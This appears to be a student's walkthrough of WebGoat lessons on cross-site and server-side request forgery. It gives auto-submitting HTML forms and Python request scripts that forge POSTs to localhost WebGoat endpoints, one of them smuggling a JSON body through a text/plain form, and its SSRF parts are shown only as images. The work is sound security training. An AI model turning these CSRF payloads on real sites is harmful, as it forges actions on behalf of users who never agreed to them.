 # Request Forgeries
## Cross-Side Request Forgeries
### Number 3

![N.3](https://github.com/AlessandroMorelli96/WebGoat/blob/master/images/08_2013_01.png)

We need to analyze the request and create a new file (.html) that is like this:

```
<form name="attack" action="http://localhost:8080/WebGoat/csrf/basic-get-flag" method="POST">  
     <input type="hidden" name='csrf' value='true'>  
     <input type="hidden" name='submit' value='Submit Query'>  
</form>  
<script>document.attack.submit();</script>
```

Open the page in a new tab with the Webgoat tab open and login.

Or with python, insert your coockie:

```
import requests
headers={'Coockie': ''}
print(requests.post('http://localhost:8080/WebGoat/csrf/basic-get-flag?csrf=false&submit=Submit+Query', headers=headers).txt)
```

### Number 4

![N.4](https://github.com/AlessandroMorelli96/WebGoat/blob/master/images/08_2013_02.png)

We need to analyze the request and create a new file (.html) that is like this:

```
<form name="attack" action="http://localhost:8080/WebGoat/csrf/review" method="POST">  
     <input type="hidden" name='reviewText' value='Review'>  
     <input type="hidden" name='stars' value='5'>  
     <input type="hidden" name='validateReq' value='2aa14227b9a13d0bede0388a7fba9aa9'>  
</form>  
<script>document.attack.submit();</script> 
```

Open the page in a new tab with the Webgoat tab open and login.

We can do it in python like this:

```
import requests
headers={'Coockie': ''}
data='reviewText=Amazing+Review&stars=5&validateReq=2aa14227b9a13d0bede0388a7fba9aa9'
print(requests.post('http://localhost:8080/WebGoat/csrf/review', headers=headers, data=data).txt)
```

### Number 7

![N.7](https://github.com/AlessandroMorelli96/WebGoat/blob/master/images/08_2013_03.png)

We need to analyze the request and create a new file (.html) that is like this:

```
<form name="attack" enctype="text/plain" action="http://localhost:8080/WebGoat/csrf/feedback/message" method="POST">
     <input type="hidden" name='{"name": "Test", "email": "test@test.com", "subject": "service", "message":"test"}'>
</form>  
<script>document.attack.submit();</script>
```

Open the page in a new tab with the Webgoat tab open and login.

### Number 8

![N.8](https://github.com/AlessandroMorelli96/WebGoat/blob/master/images/08_2013_04.png)

## Server-Side Request Forgery

### Number 2

![N.2](https://github.com/AlessandroMorelli96/WebGoat/blob/master/images/08_2013_05.png)

We need to change the request

![Original request](https://github.com/AlessandroMorelli96/WebGoat/blob/master/images/08_2013_06.png)

![New request](https://github.com/AlessandroMorelli96/WebGoat/blob/master/images/08_2013_07.png)

### Number 3

![N.3](https://github.com/AlessandroMorelli96/WebGoat/blob/master/images/08_2013_08.png)

We need to change the request

![Original request](https://github.com/AlessandroMorelli96/WebGoat/blob/master/images/08_2013_09.png)

![New request](https://github.com/AlessandroMorelli96/WebGoat/blob/master/images/08_2013_10.png)